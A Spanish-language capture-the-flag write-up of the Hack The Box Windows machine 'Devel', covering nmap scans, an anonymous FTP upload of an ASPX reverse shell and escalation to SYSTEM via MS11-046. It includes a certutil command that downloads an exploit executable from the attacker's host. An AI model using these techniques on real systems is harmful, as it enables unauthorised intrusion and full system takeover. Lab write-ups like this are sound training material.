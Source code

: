 ```yaml
---
title: Devel
published: true
categories: [Windows,Easy]
tags: [Windows explotation, FTP file upload, MS11-046]
author: Alejandro Rivera
image:
  path: https://user-images.githubusercontent.com/55555187/183245027-881f68b7-d9c0-410b-a907-4a6766faec20.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 
---
```


Devel es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se explota una subida de archivos a FTP mediante sesión anónima y la vulnerabilidad MS11-046 sobre afd.sys.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183240877-8f5aef0e-cbf0-45e9-bc6c-9aad167d5b92.png)

```bash
nmap -sCV -p21,80 -oN portSV 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183245183-94f18c5c-7b7c-45ef-9f30-ecce24c34751.png)

Lo primero que me llama la atención es que el servicio *FTP* permite login anónimo, me conecto para ver si hay algún archivo que pueda resultar de utilidad.

<img src="https://user-images.githubusercontent.com/55555187/183241047-4c64d94a-11f1-496a-814c-2efcee50ffc7.png" title="" alt="image" width="595">

Compruebo el contenido de ambos ficheros y no parece haber nada interesante, también compruebo los Metadata con *exiftool* por si hubiese un usuario que pueda ser de utilidad pero no es el caso tampoco. 

Realizo *Fuzzing* para buscar directorios y  subdominios válidos pero no encuentro nada.

En este punto lo que se me ocurre es comprobar si tengo permisos de escritura en el servicio *FTP* y si puedo acceder a los archivos a través de la web.

Intento subir un archivo *test.txt* usando put:

<img src="https://user-images.githubusercontent.com/55555187/183242329-e10da5dc-54c8-4fd5-80ee-f5727e4285a5.png" title="" alt="image" width="574">

Compruebo que se refleja en la web:

![image](https://user-images.githubusercontent.com/55555187/183242350-0b5690fc-0ef0-4dc2-9f3e-b1b5985a277b.png)

Pude intuir esto debido a que los archivos que originalmente estaban en el servicio *FTP* eran el código fuente de la web del puerto 80 y la imagen que se muestra.

Una vez que sé que puedo subir archivos y verlos reflejados en la web, subo una reverse shell en formato .aspx [GitHub - borjmz/aspx-reverse-shell: Aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell) al servicio *FTP* y accedo a la ruta *http://10.10.10.5/nombre rev shell.aspx* obteniendo una conexión:

![image](https://user-images.githubusercontent.com/55555187/183242640-911e42f3-64d4-4918-b962-b2c13a196569.png)

## Escalada de privilegios

Mirando los privilegios del usuario mediante *whoami /all* descubro que tiene el permiso *SeImpersonatePrivilege* por lo que quizás podría ser vulnerable a *RottenPotato* o *JuicyPotato*. Hago un intento con Juicy pero resulta que el OS es demasiado viejo para ejecutar el .exe.

Miro las especificaciones del sistema:

<img src="https://user-images.githubusercontent.com/55555187/183244241-15523594-3023-4d3f-a36b-767382d6511b.png" title="" alt="image" width="590">

Busco exploits asociados a *Windows 7 6.1.7600* y encuentro que es vulnerable a la vulnerabilidad MS11-046 la cual consiste en que la función *afd.sys* no valida los datos enviados desde el modo usuario al modo kernel permitiendo la ejecución de comandos en el modo kernel.

Encuentro un repositorio de Github con un montón de exploits para Windows, entre los que se encuentra uno para explotar la vulnerabilidad *MS11-046*

[WindowsExploits: Windows exploits, mostly precompiled.](https://github.com/abatchy17/WindowsExploits)

Descargo el *.exe*, lo envio a la máquina víctima a través de *certutil* y lo ejecuto logrando una shell como **NT AUTHORITY\SYSTEM**

```powershell
certutil.exe -urlcache -f http://10.10.14.6/MS11-046.exe ms11-046.exe
```

![image](https://user-images.githubusercontent.com/55555187/183244619-cef28930-365a-4c4b-bac6-122fc20842cf.png)
